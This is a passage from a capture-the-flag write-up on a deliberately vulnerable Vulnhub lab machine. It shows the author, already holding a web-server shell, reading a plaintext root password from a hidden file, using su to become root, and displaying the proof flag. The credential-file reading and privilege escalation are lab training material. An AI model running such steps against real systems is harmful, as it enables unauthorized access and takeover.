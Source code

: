 
~~~bash
www-data@ubuntu-extermely-vulnerable-m4ch1ine:$ cat /home/root3r/.root_password_ssh.txt
<ulnerable-m4ch1ine:$ cat /home/root3r/.root_password_ssh.txt                
willy26
~~~

Sincy this hidden files has a plain text password in its wfile I have to write it to my notes: root:willy26
Within the shell I could try to use the **su** command to switch user to root with the password found in the previous step.
~~~bash
www-data@ubuntu-extermely-vulnerable-m4ch1ine:$ su root
su root
Password: willy26

shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
sh: 0: getcwd() failed: No such file or directory
root@ubuntu-extermely-vulnerable-m4ch1ine:# whoami;id;hostname;pwd
whoami;id;hostname
root
uid=0(root) gid=0(root) groups=0(root)
ubuntu-extermely-vulnerable-m4ch1ine\
root@ubuntu-extermely-vulnerable-m4ch1ine:# 
~~~
Since I am root on the system I only have to capture the flag. The flag should be in the root directory.
~~~bash
root@ubuntu-extermely-vulnerable-m4ch1ine:# ls /root
ls /root
proof.txt
root@ubuntu-extermely-vulnerable-m4ch1ine:# cat /root/proof.txt
cat /root/proof.txt
voila you have successfully pwned me :) !!!
:D
~~~

While closing some windows, I noticed that finally the WordPress website loaded. If the website loaded faster, I would have tried to exploit is manually.
![Image](/assets/img/WriteUp/Vulnhub/EVM/3.png){: width="700" height="400" }